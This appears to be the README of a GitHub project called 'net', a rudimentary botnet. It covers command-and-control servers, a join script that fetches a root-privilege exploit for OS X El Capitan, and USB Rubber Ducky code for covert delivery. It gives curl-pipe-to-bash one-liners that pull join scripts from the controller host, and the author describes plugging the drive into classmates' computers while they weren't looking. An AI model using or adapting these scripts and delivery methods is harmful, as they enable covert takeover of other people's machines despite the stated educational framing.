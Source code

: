 # net
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl -L [host]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [host]:2042/linux/join.sh |bash
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

During my cybersecurity class in which I developed `net`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
